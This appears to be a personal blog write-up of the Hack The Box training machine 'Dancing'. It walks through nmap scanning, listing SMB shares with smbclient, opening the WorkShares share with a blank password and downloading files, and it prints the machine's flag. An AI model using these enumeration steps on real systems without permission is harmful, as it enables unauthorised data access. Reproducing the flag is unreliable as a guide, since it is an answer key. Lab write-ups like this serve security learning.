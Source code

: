 ```yaml
---
title: "[HTB] Dancing"
author: "Wook Lee"
date: "2024-06-17"
tags: ["hack the box"]
---
```


> _Hack The Box_ starting point, tier 0, very easy, #3 machine: Dancing.
> Lets' go!

![lets_go](./lets_go.gif)

</br>

##### TASK 1

What does 3-letter acronym SMB stand for?

```
Server Message Block
```

SMB protocol implements an application-layer network protocol used to access resources on a server, such as file shares and shared printers.

</br>

##### TASK 2

What port does SMB use to operate at?

```
445
```

When I researched about SMB, I found that SMB uses either IP port 139 or 445.

Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an old transport layer that allows Windows computers to talk to each other on the same network.
Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack. Using TCP allows SMB to work over the internet.

</br>

##### TASK 3

what is the service name for port 445 that came up in our Nmap scan?

```
microsoft-ds
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.1.12
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-17 17:42 BST
Nmap scan report for 10.129.1.12
Host is up (0.027s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

</br>

##### TASK 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```
-L
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient --help
Usage: smbclient [OPTIONS] service <password>
-M, --message=HOST Send message
-I, --ip-address=IP Use this IP to connect to
-E, --stderr Write messages to stderr
instead of stdout
-L, --list=HOST Get a list of shares available
on a host
-T, --tar=<c|x>IXFvgbNan Command line tar
-D, --directory=DIR Start from directory
-c, --command=STRING Execute semicolon separated
commands
-b, --send-buffer=BYTES Changes the transmit/send buffer
-t, --timeout=SECONDS Changes the per-operation
timeout
-p, --port=PORT Port to connect to
-g, --grepable Produce grepable output
-q, --quiet Suppress help message
-B, --browse Browse SMB servers using DNS
```

</br>

##### TASK 5

How many shares are there on Dancing?

```
4
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient -L 10.129.1.12
Password for [WORKGROUP\leewookb]:

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    WorkShares      Disk

SMB1 disabled -- no workgroup available
```

</br>

##### TASK 6

What is the name of the share we are able to access in the end with a blank password?

```
WorkShares
```

Running the **smbclient -L 10.129.1.12** command, we can see that four separate shares are displayed. The default administrative shares often include the $ symbol at the end of their name to indicate they are hidden shares. As we can see that **ADMIN$** , **C$**, **IPC$** shares all include the symbol at the end. On the other hand, **WorkShares** share does not include this symbol, which is an indicator that it is a user-created, or custom, share.

</br>

##### TASK 7

What is the command we can use within the SMB shell to download the files we find?

```
get
```

```zsh
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ smbclient \\\\10.129.1.12\\WorkShares
Password for [WORKGROUP\leewookb]:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Mon Mar 29 09:22:01 2021
.. D 0 Mon Mar 29 09:22:01 2021
Amy.J D 0 Mon Mar 29 10:08:24 2021
James.P D 0 Thu Jun 3 09:38:03 2021
```

In order to connect to the custom share, **WorkShares** , we need to specify the target's IP address and the target SMB share. The command is **smbclient \\\\{target_IP}\\{target_share}**.

- The double backslashes ('\\\\') are used to escape the backslashes in the path.
- The path **{target_IP}\\WorkShares** refers to the "WorkShares" share on the machine identified by '{target_IP}'
- We were able to connect to the custom share and I used the command ls to list all of the contents of the directories within the share. The command showed us two directories, one is **Amy.J** and another is **James.P** .

```zsh
smb: \> cd Amy.J
smb: \Amy.J\> ls
. D 0 Mon Mar 29 10:08:24 2021
.. D 0 Mon Mar 29 10:08:24 2021
worknotes.txt A 94 Fri Mar 26 11:00:37 2021


    5114111 blocks of size 4096. 1733826 blocks available

smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> ls
. D 0 Mon Mar 29 09:22:01 2021
.. D 0 Mon Mar 29 09:22:01 2021
Amy.J D 0 Mon Mar 29 10:08:24 2021
James.P D 0 Thu Jun 3 09:38:03 2021

    5114111 blocks of size 4096. 1733810 blocks available

smb: \> cd James.P\
smb: \James.P\> ls
. D 0 Thu Jun 3 09:38:03 2021
.. D 0 Thu Jun 3 09:38:03 2021
flag.txt A 32 Mon Mar 29 10:26:57 2021

    5114111 blocks of size 4096. 1733785 blocks available

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.7 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \James.P\>
```

I used **cd** command to visit Amy.J folder and found 'worknotes.txt' file, which we can download using the **get** command. Also we moved inside the James.P directory as well and downloaded the flag.txt file.

```zsh
smb: \James.P\> quit
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ ls
Desktop flag.txt IXFvgbNan my_data Templates worknotes.txt
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-bozzgppq95]─[~]
└──╼ [★]$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

Since we got everything we needed from the share, we can exit out of the SMB server and the files we downloaded are saved inside the location where we ran our **smbclient** command from.
<br/>
<br/>

##### SUBMIT FLAG

submit root flag

```
5f61c10dffbc77a704d76016a22f1664
```

![dancing_cleared](./dancing_img.png)
